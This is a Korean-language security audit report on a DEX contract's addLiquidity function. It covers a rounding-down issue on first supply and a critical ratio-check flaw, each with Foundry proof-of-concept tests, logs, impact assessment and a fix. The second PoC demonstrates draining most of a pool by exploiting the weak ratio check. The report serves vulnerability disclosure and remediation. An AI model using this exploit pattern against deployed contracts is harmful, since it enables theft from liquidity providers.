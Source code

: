# 1. DEX - addLiquidity 초기 공급 시 round down

## 설명

<aside>

### **키워드 : Numeric issue(Round down)**

### **심각도 : Informational**

초기 유동성 공급 과정에서 내림(round down)이 발생할 수 있고, 이로 인해 LP토큰 발행량과 실제 유동성 풀의 싱크가 깨지게 되어 이후 유저들 또한 손해를 볼 수 있다.

</aside>

```solidity
_decimal = 10 ** 18;
if (totalSupply() == 0) {
            lpAmount = (tokenXAmount * tokenYAmount) / _decimal; // is amount best? no overflow?
        }
```

초회 공급시 공급된 토큰들의 전체 가치를 `MINIMUM_LIQUIDITY` 상수로 나누어 저장한다. 이 과정에서 999 wei 이하는 모두 삭제되어 LP Token이 발행된다.

따라서 초회 유동성 공급시 공급량에 비해 적은 양의 토큰을 발급받게 된다.

이후 유동성을 공급하는 유저들도 LP토큰 발행량과 유동성 풀에 존재하는 수치의 싱크가 맞지 않기에(유동성 풀이 round down되어 사라진 만큼 항상 큰 상태가 유지되기 때문에) 유동성을 제거할 때 토큰의 가치가 적게 책정된다.

## PoC

```solidity
function testPOC() external {
        uint lp1 = dex.addLiquidity(1 ether + 1, 1 ether + 1, 0);
        emit log_named_uint("LP1", lp1);
        tokenX.transfer(address(0x01), 100 ether);
        tokenY.transfer(address(0x01), 100 ether);
        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), 100 ether);
            tokenY.approve(address(dex), 100 ether);
            uint lp2 = dex.addLiquidity(10 ether, 10 ether, 0);
            emit log_named_uint("LP2", lp2);
            (uint rx, uint ry) = dex.removeLiquidity(lp2, 0, 0);
            emit log_named_uint("lp2:rx", rx);
            emit log_named_uint("lp2:ry", ry);
        }
        vm.stopPrank();
        (uint rx, uint ry) = dex.removeLiquidity(lp1, 0, 0);
        emit log_named_uint("rx", rx);
        emit log_named_uint("ry", ry);
    }
```

```solidity
[PASS] testPOC() (gas: 298446)
Logs:
  LP1: 1000000000000000002
  LP2: 10000000000000000009
  lp2:rx: 9999999999999999999
  lp2:ry: 9999999999999999999
  rx: 1000000000000000002
  ry: 1000000000000000002
```

발행된 토큰 수와 유동성 풀이 일치하지 않기에 공급량을 제거할 때 토큰이 실제 가치보다 낮게 책정됨을 알 수 있다.

## 파급력

초기 공급량(두 토큰 공급량의 곱, `(tokenXAmount * tokenYAmount)` )이 `_decimal` 보다 작다면 발생할 수 있는 버그이다. 발현 난이도는 낮은 편이라고 볼 수 있다.

이후 LP 토큰을 교환하는 모든 유저들에게 손해가 고스란히 가게 되어 있는 구조이지만 이를 악용하여 손해만 볼 뿐 추가적인 이득을 취할 수는 없으며, 손해로 직결되는 양 또한 적은 양이므로 위험도는 낮음으로 책정하였다.

## 해결 방법

```solidity
lpAmount = (tokenXAmount * tokenYAmount)
```

`_decimal` 로 나누지 않거나 overflow가 걱정된다면 `sqrt` 로 연산하여 저장하는 방법이 존재한다.

---

# 2. DEX - addLiquidity 유동성 공급비 검증 미흡

## 설명

<aside>

### **키워드 : Vulnerability - Numeric issue(Round down), 유동성 풀 조작**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지만, 검증이 미흡하여 유동성 풀을 조작할 수 있다.

</aside>

```solidity
require(
    (_decimal * tokenXAmount) / tokenYAmount ==
        (_decimal * _amountX) / _amountY,
    "amount breaks the pool ratio"
);
```

비율에 대한 검사가 이루어지지만, 결국 나누기 연산에 의해 round down이 발생할 수 있고, 검증의 정확도가 떨어지게 된다. 특히 두 토큰의 전체 공급량이 `10^18` 배 보다 많이 차이가 나는 순간 비율이 0이 되어 유동성의 비와 맞지 않아도 `10^18` 배 이상의 어떠한 공급도 허용하게 된다.

그 이후 토큰 공급량을 계산하는 과정에서 `tokenXAmount` 로부터 지분을 계산하기 때문에 이를 악용하여 토큰 탈취가 가능하다.

`lpAmount = (totalSupply() * tokenXAmount) / _amountX;`

## PoC

```solidity
function testPOC() external {
    dex.addLiquidity(1, 10 ether, 0);
    uint lp1 = dex.addLiquidity(99, 100 ether, 0);

    (uint r1, uint r2) = dex.removeLiquidity(lp1, 0, 0);
    console.log("res", r1, r2 / 1e18);
}
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 219863)
Logs:
  res 99 108
```

유동성 풀이 `10^18` 배 차이나는 상황에서는 이를 우회하여 유동성을 공급할 수 있고, 이렇게 유동성을 공급하게 될 경우 토큰 발행량은 X에 맞춰지기 때문에 이를 통해 실제 유동성에 공급한 공급량보다 더 많은 토큰 지분을 가지게 된다. 발행받은 토큰을 다시 유동성을 제거하여 토큰 x,y로 바꿔보면 DEX에 존재하는 대부분의 지분(99/100)만큼을 획득하였음을 알 수 있다.

## 파급력

실제 공급한 공급량보다 더 많은 LP토큰을 획득할 수 있는 취약점이기에, 발현할 수 있는 조건만 갖춰진다면 DEX 유동성 풀의 비율도 망가뜨리고 원하는 만큼 토큰도 탈취할 수 있는 취약점이다.

물론 취약점 발현을 위한 조건은 꽤 어려운 편이라고 볼 수 있다. 두 토큰의 교환비(가치)가 `10^18` 배 이상 차이가 발생해야 하기 때문이다.

하지만, 취약점이 발현될 경우 DEX의 핵심 기능이라고 볼 수 있는 가치 교환비가 깨지게 되고 DEX 유동성 풀을 탈취하는 등 DEX를 완전히 무너뜨릴 수 있기 때문에 위험도가 매우 높다고 판단하였다.

## 해결 방법

```solidity
require(
    _amountX * tokenYAmount == tokenXAmount * _amountY,
    "amount breaks the pool ratio"
);
```

round down이 발생하지 않도록 나눗셈이 아닌 곱셈을 통해 비율을 확인하면 해결 가능하다.
